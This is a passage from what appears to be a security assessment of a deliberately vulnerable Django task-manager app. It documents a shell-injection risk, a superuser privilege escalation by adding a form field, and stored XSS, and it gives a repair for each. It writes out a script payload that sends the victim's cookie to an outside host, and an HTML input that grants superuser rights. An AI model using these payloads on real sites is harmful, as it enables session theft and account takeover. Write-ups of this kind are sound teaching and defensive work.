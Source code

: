 file.save()
```

To inhibit shell injection, don't name files based directly on user input. Replace
```
name = request.POST.get('name', False)
```
with
```
name = ''.join(random.choice(string.lowercase) for i in range(length))
```

## Broken Auth and Session Management

### Exposure

The UserForm built on the Django user class doesn't exclude the 'is_superuser' field.
In the browser, I added another input field to the registration form
```
<input name='is_superuser' type='checkbox' checked>
```
which made my new user a superuser. I can create new projects (I previously could but now I get
a button), I can manage permissions, etc.

### Repair

You could add 'is_superuser' to the 'excludes' blacklist, or you could explicitly state
which fields should be allowed. To do the latter, in UserForm within taskManager/forms.py, replace
```
exclude = ['groups', 'user_permissions', 'last_login', 'date_joined', 'is_active']
```
with
```
fields = ('username', 'first_name', 'last_name', 'email', 'password')
```

## Cross-site Scripting

### Exposure

In 'base_backend.html', the user's username is inserted into the html document with the 'safe' filter.
So any code in the username will be executed. I inserted:
```
myname</span><script>document.location= 'http://www.google.com?foo='+document.cookie</script>
```
as my username, but my browser console raised an error saying the XSS Auditor refused to execute the script
since it's source code was found in the request. But if I then just go somewhere else, say the homepage,
the page renders my username and in doing so runs the script redirecting me to google with the cookie attached.
A very similar script can be inserted into the create/edit task form with the same results.

A similar vulnerability exists in the search page where you can insert code into the href of the refresh button,
but I couldn't get around the XSS Auditor in this case.

### Repair

Really just get rid of the 'safe' filter.
In 'search.html', 'task_details.html', and 'base_backend.html', replace
```
{<some data> | safe}
```
with
```